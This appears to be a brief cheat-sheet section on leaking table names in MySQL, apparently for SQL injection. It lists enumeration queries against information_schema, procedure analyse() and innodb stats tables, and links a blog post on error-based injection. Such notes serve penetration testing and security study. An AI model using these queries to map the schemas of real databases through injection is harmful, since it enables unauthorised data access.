## Leaking Table Name

### MySQL

- information_schema

```sql
SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database()
```

- procedure analyse()

```sql
SELECT * FROM table WHERE condition procedure analyse()
```

- mysql.innodb_table_stats ( >= 5.6 )
- mysql.innodb_index_stats ( >= 5.6 )

```sql
select * from mysql.innodb_table_stats where database_name=schema()
```


#### TOBEUPDATED

- https://blog.pagez.kr/2015/04/19/another-error-based-sql-injection-on-mysql.html